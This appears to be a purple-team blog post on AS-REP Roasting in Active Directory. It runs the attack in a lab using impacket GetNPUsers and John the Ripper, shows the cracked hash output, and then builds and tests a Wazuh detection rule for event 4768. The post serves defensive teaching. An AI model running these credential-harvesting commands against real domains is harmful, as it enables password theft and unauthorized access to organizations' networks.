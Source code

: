 ```yaml
---
title: AS-REP Roasting - MITRE ATT&CK T1558.004
date: 2025-04-27 13:00:00 
categories: [Purple Team,Active Directory & Kerberos Abuse]
tags: [active directory,asrep roasting,hashcat]     # TAG names should always be lowercase
comments: true
image:
  path: /./media/post5/kerberos.png
---
```

Hello everyone, thank you for being here. In this blog post, I will demonstrate and simulate a very classic yet interessting Active Directory and Kerberos abuse attack: the **AS-REP Roasting** attack. So, let's get started!
## What is Kerberos ?
Kerberos is a network authentication protocol designed to provide strong authentication for client-server applications using ticket-based cryptography. Developed by MIT, it is the default authentication mechanism in Microsoft Active Directory (AD) environments.
### Kerberos components :
Kerberos authentication involves three main components:

- **Key Distribution Center (KDC)** – The central authority that issues tickets, the KDC has two main components :
  - **Authentication Service (AS)** – Verifies user identity and issues Ticket-Granting Tickets (TGTs).
  - **Ticket-Granting Service (TGS)** – Grants service tickets for accessing resources.

- **Client** – The user or service requesting access.

- **Service Server** – The resource the client wants to access (e.g., a file share, SQL server).
### The Kerberos Authentication Flow (simplified) :

1. **AS-REQ** (Authentication Service Request) : – The client requests a TGT from the AS.

2. **AS-REP** (Authentication Service Reply) : – If pre-authentication is enabled, the AS verifies the user’s credentials and sends an encrypted TGT.

3. **TGS-REQ** (Ticket-Granting Service Request) : – The client sends the TGT to the TGS to request a service ticket.

4. **TGS-REP** (Ticket-Granting Service Reply) : – The TGS issues a service ticket for the requested resource.

5. **AP-REQ** (Application Request) : – The client presents the service ticket to the target server.

6. **AP-REP** (Application Reply) : – The server grants access.

this image below represents the kerberos flaw, as stated before :

![screen_1](/./media/post5/krbmsg.gif)

## AS_REP Roasting :
**AS-REP Roasting** exploits a weakness in Kerberos when **pre-authentication** is disabled for a user account. Without pre-authentication, an attacker can request a TGT (no password aka anyone can) for the user and receive an encrypted AS-REP message, which can be cracked offline to reveal the user’s password. Luckily in **Kerberos v5** the preauth is enabled by default and you have to manually disable it, the only reason i think sys admin would disble it is for backward compatibility with Kerberos v4 libraries that might be used by some legacy applications,those account by default do not require a password.
## ATTACK Simulation (AS-REP Roasting Attack Demonstration) :
In this practical demonstration, we'll simulate an **AS-REP Roasting** attack in our test environment and identify **key Indicators of Attack (IoAs)** that would alert defenders to such malicious activity.

**Lab Environment Details:**

- Target Domain: **iccn.ma**

- Vulnerable Account: **iccn.ma/jdoe** (pre-authentication disabled)
the **jdoe** user properties must be set up with preauth disabled just as follows : 

![screen_2](/./media/post5/jdoe_prop.png)

### Attack
for the asrep abuse we'll use the impacket script **GetNPUsers.py** script :
```shell
impacket-GetNPUsers -no-pass iccn.ma/jdoe -dc-ip 10.0.2.16 
```
after execuring this command we'll get the ASREP (TGT + Session key), the session key is the one that's encrypted wiht the user jdoe password's hash.
now we can move to offline cracking, we can use tools like hashcat or JTR (john the ripper), for this demo i'll user JTP with rockyou.txt password list, the command is like this : 
```shell
john --wordlist=/usr/share/wordlists/rockyou.txt tgt.txt 
```
after a while (depending on the domain password policy), we can get this output :
```shell
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 256/256 AVX2 8x])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Password123      ($krb5asrep$23$jdoe@ICCN.MA)     
1g 0:00:00:00 DONE (2025-04-28 23:28) 6.250g/s 211200p/s 211200c/s 211200C/s katten..redlips
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```
as we can see the password of the **iccn/jdoe** user is **Password123** 
and just like that the attacker has now a foothold in your domaina and can perfom even more enumeration to find weakspots.


## Detect & respond to the Attack Using _Wazuh_

every TGT Request to the DC is logged with this **4768**, remember it because we'll need it later when we create detection rules in **_wazuh_**. You can see the event in windows event viewer just like this :

![screen_3](/./media/post5/windows_event.png)

The objective of this detection is to generate alerts whenever an **unauthorized IP** makes a **TGT request** to Domain Controller (DC) accounts that have **pre-authentication disabled**. To achieve this, we'll use Wazuh and its powerful capabilities for customizing detection rules and variables.

By default, Wazuh includes a rule for TGT requests; however, it is set at level 0, which means it does not generate alerts. Instead of modifying this built-in rule, we'll create a child rule that triggers whenever the parent rule fires. This approach gives us better control and flexibility over the detection logic.

Let’s analyze the following rule:

```xml
<var name="acc_no_pre_auth">jdoe</var>
<group name="security_event, windows,">
  <rule id="110002" level="12">
    <if_sid>60103</if_sid>
    <field name="win.system.eventID">^4768$</field>
    <field name="win.eventdata.TargetUserName">$acc_no_pre_auth</field>
    <match name="win.eventdata.IpAddress" negate="yes">10.0.2.17</match>
    <options>no_full_log</options>
    <description>Possible ASREP Roast Attack from $(win.eventdata.IpAddress) to a no-preauth account: $(win.eventdata.TargetUserName)</description>
    <mitre>
        <id>T1558.004</id>
    </mitre>
    <info type="link">https://attack.mitre.org/techniques/T1558/004/</info>
  </rule>
</group>
````
This child rule (ID: 110002) is triggered when its parent rule (60103) is matched. It includes conditions aligned with our detection objective:

1. It only triggers if the **TargetUserName** matches an account with pre-authentication disabled, defined in the variable **$acc_no_pre_auth**.
2. It ensures the IpAddress is not equal to the legitimate IP address **10.0.2.17**.

The generated alert includes useful metadata like the MITRE ATT&CK technique ID and a link for further reading.

Next, we simulate the attack from a Linux machine with the IP address 10.0.2.20:

![screen_4](/./media/post5/ifconfig.png)
After using the Impacket script (as in the previous attack simulation). In the Wazuh Dashboard, we can observe that an alert was successfully generated:
![screen_5](/./media/post5/alert.png)
we can further inspect the content of the alert using drilldowns 
![screen_6](/./media/post5/desc_1.png)

## Conclusion
This detection strategy successfully leverages Wazuh’s rule customization and variable substitution capabilities to detect **ASREP Roasting** attacks. By creating a child rule that monitors for TGT requests to accounts with preauthentication disabled—only from unauthorized IPs— we ensure targeted and meaningful alerts without modifying Wazuh’s built-in rules. This approach enhances flexibility and maintains rule integrity. As demonstrated, a simulated ASREP Roasting attempt from an untrusted IP triggered a precise alert, confirming the effectiveness of this method in identifying potential lateral movement or credential dumping attacks in an Active Directory environment.

I hope You have enjoyed reading this blog post,f you have any questions or need help implementing a similar setup, feel free to ask!

